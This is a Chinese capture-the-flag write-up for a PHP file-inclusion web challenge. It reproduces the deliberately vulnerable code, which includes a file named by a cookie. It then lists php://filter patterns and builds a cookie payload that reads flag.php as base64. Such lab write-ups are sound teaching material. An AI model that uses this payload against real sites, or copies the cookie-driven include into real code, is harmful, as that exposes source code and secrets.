




# WEB-攻防世界fileinclude-2
- 关键词 考查php伪协议读取源码

## 1.题目描述
打开环境可以看到下图所示

提示了flag在flag.php
尝试了一下，查看源码直接能看到逻辑

```php
<?php
if( !ini_get('display_errors') ) {
  ini_set('display_errors', 'On');
  }
error_reporting(E_ALL);
$lan = $_COOKIE['language'];
if(!$lan)
{
	@setcookie("language","english");
	@include("english.php");
}
else
{
	@include($lan.".php");
}
$x=file_get_contents('index.php');
echo $x;
?>
```

## 解题思路
这段就很明显了，基本逻辑是从cookie里面读取language的值，如果不为空，则会include ['language'].php

这里就可以看到可以用伪协议来尝试读取flag.php。
## 简单的php://filter利用方式
```php
读：php://filter/resource=文件名
 
php://filter/read=convert.base64-encode/resource=文件名
 
写：php://filter/resource=文件名&txt=文件内容
 
php://filter/write=convert.base64-encode/resource=文件名&txt=文件内容
```
## 构造payload
我们构造cookie中的language=php://filter/write=convert.base64-encode/resource=flag
则拼接之后正好是flag.php

得到一个base64的字符，解码即可

